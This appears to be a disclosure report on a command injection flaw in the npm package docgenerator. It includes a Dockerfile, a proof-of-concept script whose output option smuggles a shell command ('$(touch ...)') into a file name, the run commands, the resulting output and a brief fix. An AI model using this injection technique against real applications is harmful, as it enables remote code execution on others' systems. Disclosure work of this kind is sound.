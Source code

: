@docgenerator is vulnerable to command injection

[Npm Package](https://www.npmjs.com/package/docgenerator)

# Steps To Reproduce
* Create a new Dockerfile container

```
# Dockerfile
FROM node:10-slim
WORKDIR /exploitation
RUN npm i docgenerator
COPY rip.js /exploitation/rip.js
ENTRYPOINT ls -l ; node rip.js ; ls -l 
```
* Create the file rip.js using the following code:

```
var generator = require( 'docgenerator' ),
    path = require( 'path' ),
    fs = require( 'fs' );

// Get all the markdown files in this folder
var files = fs.readdirSync( '.' );

files = files
    .filter( function( file ) {
        return file.substr( -3 ) === '.md';
    })
    .sort();

generator
    .set( 'title', 'Official documentation of tartempion' )
    .set( 'toc', true )
    .set( 'table', true )
    .set( 'files', files )
    .set( 'output', 'documentation.html; $(touch /exploitation/bitcoinMiner.txt)' )
    .generate();
    
 ```
 
  * Build and Run the container with the following commands:
  ```
  $ docker build . -t docsexploit
  $ docker run docsexploit
  ```
  
  Sample Output
  
  ```
total 8
drwxr-xr-x 1 root root  42 Feb  5 23:26 node_modules
-rw-r--r-- 1 root root 512 Feb  5 23:26 package-lock.json
-rw-r--r-- 1 root root 539 Feb  5 23:23 rip.js
fs.js:114
    throw err;
    ^

Error: ENOENT: no such file or directory, open 'documentation.html; $(touch /exploitation/bitcoinMiner.txt)'
    at Object.openSync (fs.js:443:3)
    at Object.writeFileSync (fs.js:1194:35)
    at Object.appendFileSync (fs.js:1240:6)
    at /exploitation/node_modules/docgenerator/lib/index.js:100:16
    at ChildProcess.exithandler (child_process.js:285:7)
    at ChildProcess.emit (events.js:198:13)
    at maybeClose (internal/child_process.js:982:16)
    at Socket.stream.socket.on (internal/child_process.js:389:11)
    at Socket.emit (events.js:198:13)
    at Pipe._handle.close (net.js:607:12)
total 12
-rw-r--r-- 1 root root 188 Feb  5 23:27 88ac3064-6c59-4a5a-a859-ab7a2c4c301b
-rw-r--r-- 1 root root   0 Feb  5 23:27 bitcoinMiner.txt
-rw-r--r-- 1 root root   0 Feb  5 23:27 documentation.html
drwxr-xr-x 1 root root  42 Feb  5 23:26 node_modules
-rw-r--r-- 1 root root 512 Feb  5 23:26 package-lock.json
-rw-r--r-- 1 root root 539 Feb  5 23:23 rip.js

```

As you can see the malicious file bitcoinMiner.txt was introduced.
If a node project using this library takes the output parameter from untrusted input it will lead to remote code execution.

# Remediation

Use the .spawn() directive.
  
  
